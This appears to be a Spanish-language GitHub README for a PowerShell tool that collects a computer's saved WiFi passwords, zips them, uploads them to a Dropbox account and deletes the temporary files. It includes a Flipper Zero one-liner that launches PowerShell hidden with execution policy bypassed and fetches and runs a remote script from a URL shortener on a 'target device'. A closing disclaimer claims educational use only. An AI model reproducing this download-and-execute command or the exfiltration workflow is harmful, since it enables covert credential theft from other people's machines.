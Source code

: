 ```yaml
---

# Export-WiFiKeys

Este script de PowerShell exporta las contraseñas de las redes WiFi almacenadas en tu computadora, las guarda en archivos de texto, las comprime en un archivo ZIP y luego sube el archivo ZIP a Dropbox. Después de completar el proceso, los archivos temporales se eliminan.

## Requisitos

- PowerShell 5.0 o superior
- Acceso a Internet
- Una cuenta de Dropbox y un token de acceso a la API de Dropbox

## Instalación

1. Clona este repositorio o descarga los archivos necesarios.

2. Define tu token de acceso a Dropbox en el script antes de ejecutarlo:

    ```powershell
    $db = "tu_token_de_dropbox"
    ```

## Uso

### En Windows:

1. Abre PowerShell con permisos de administrador.

2. Navega al directorio donde se encuentra el script.

3. Ejecuta el script:

    ```powershell
    .\Export-WiFiKeys.ps1
    ```

El script creará un directorio con la fecha y hora actual en tu carpeta de Documentos, almacenará las contraseñas WiFi en archivos de texto dentro de este directorio, comprimirá el directorio en un archivo ZIP y subirá el archivo ZIP a tu cuenta de Dropbox. Después de completar estos pasos, el script eliminará los archivos temporales creados durante el proceso.

### En Flipper Zero:

1. **Carga el archivo `.txt` a tu Flipper Zero:**

    - Guarda el script de PowerShell en tu Flipper Zero.
    - Carga el script a través de la interfaz del dispositivo.

2. **Ejecuta el script:**

    - Abre una terminal en tu Flipper Zero y ejecuta el siguiente comando:

    ```bash
    powershell -w h -ep bypass $db='';irm https://goo.su/x3RyN | iex
    ```

Esto ejecutará el script de PowerShell en el dispositivo de destino, exportando las contraseñas WiFi y subiéndolas a tu cuenta de Dropbox.

---
```


## Detalles del Script

### Export-WiFiKeys

Esta función realiza los siguientes pasos:

1. Crea un directorio con la fecha y hora actual en la carpeta de Documentos del usuario.
2. Recoge las contraseñas de las redes WiFi almacenadas en el sistema y las guarda en archivos de texto en el directorio creado.
3. Comprime el directorio en un archivo ZIP.
4. Llama a la función `DropBox-Upload` para subir el archivo ZIP a Dropbox.
5. Elimina los archivos temporales creados durante el proceso.

### DropBox-Upload

Esta función realiza los siguientes pasos:

1. Toma la ruta del archivo fuente como parámetro.
2. Define los encabezados y parámetros necesarios para la solicitud a la API de Dropbox.
3. Usa `Invoke-RestMethod` para subir el archivo a Dropbox.

## Notas

- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP que se subirá.
- El script debe ejecutarse con permisos de administrador para acceder a las contraseñas WiFi almacenadas en el sistema.
- **Recuerda:** Este script también puede ser ejecutado desde un Flipper Zero, lo que lo hace útil para pruebas en entornos controlados.

## Licencia

Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo `LICENSE` para más detalles.

---

**🚨 Descargo de Responsabilidad:**

El uso de este repositorio y los scripts contenidos en él es responsabilidad exclusiva del usuario. El autor de este proyecto **no se hace responsable** de cualquier daño, perjuicio o actividad ilegal que resulte del uso de estos scripts en entornos no autorizados o no controlados. Este proyecto debe ser utilizado únicamente con fines educativos y en entornos de pruebas con permisos explícitos. El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables.

---
